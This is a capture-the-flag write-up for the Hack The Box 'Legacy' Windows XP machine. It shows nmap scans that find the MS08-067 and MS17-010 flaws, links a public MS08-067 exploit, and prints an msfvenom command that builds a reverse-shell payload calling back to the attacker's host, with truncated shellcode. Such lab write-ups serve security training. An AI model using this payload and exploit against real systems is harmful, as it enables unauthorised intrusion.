 # Legacy
>Author : Xyan1d3
>Date : 23rd June 2021
>IP : 10.10.10.4
>OS : Windows
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jun 23 02:06:02 2021 as: nmap -sC -sV -oN nmap/legacy -v 10.10.10.4
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.080s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h29m47s, deviation: 2h07m16s, median: -5h59m47s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:6e:23 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-06-22T20:36:29+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

The host is running Windows XP as confirmed by the Nmap scripts.
As, The OS is obsolete by now and is ancient. We will be turning towards some SMB exploits.

We run a the `nmap` script called vuln. Which scan's some of the common vulnerability.
```python
# Nmap 7.91 scan initiated Wed Jun 23 14:08:40 2021 as: nmap -sC -sV --script vuln -v -oN nmap/legacy 10.10.10.4
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.080s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

From this script scan we find out that the machine is vulnerable to `MS08-067` and `MS17-010`.

# Exploiting MS08-067
Exploit Link : https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

We have to change the buffer overflow shellcode by using the command by specified inside the exploit.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.15]─[~/htb/legacy]
└──╼ # msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8888 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows           
Found 11 compatible encoders              
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00) 
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348                          
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"                   

*** SNIP ***
```

We need to take the shellcode and replace it in the `MS08-067` exploit shellcode section.

![[Pasted image 20210623154227.png]]
![[Pasted image 20210623153919.png]]

We run the exploit and get a shell on the box as `NT Authority/SYSTEM` on the box.
But, We cannot verify it as Windows XP does not has `whoami.exe` inside. We could copy the `whoami.exe` from our box to the attackbox using the python SMBServer.

![[Pasted image 20210623154651.png]]

## User Flag
We can now get our `user.txt` by navigating `C:\Documents and Settings\john\Desktop` directory.
![[Pasted image 20210623154754.png]]

## Root Flag
We can now get our `root.txt` by navigating `C:\Documents and Settings\Administrator\Desktop` directory.
![[Pasted image 20210623154943.png]]